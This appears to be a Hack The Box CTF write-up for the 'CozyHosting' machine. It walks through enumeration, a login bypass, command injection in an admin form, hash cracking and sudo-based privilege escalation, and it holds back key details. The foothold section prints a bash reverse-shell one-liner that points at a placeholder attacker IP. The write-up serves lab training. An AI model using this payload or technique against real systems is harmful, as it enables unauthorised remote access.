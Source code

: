 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
tags: linux easy
---
```


This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

# 1. Initial enumeration
First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](/assets/writeups/CozyHosting/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](/assets/writeups/CozyHosting/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](/assets/writeups/CozyHosting/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](/assets/writeups/CozyHosting/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](/assets/writeups/CozyHosting/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](/assets/writeups/CozyHosting/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](/assets/writeups/CozyHosting/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](/assets/writeups/CozyHosting/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](/assets/writeups/CozyHosting/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We now have all the information required to connect to the database:
![](/assets/writeups/CozyHosting/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](/assets/writeups/CozyHosting/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !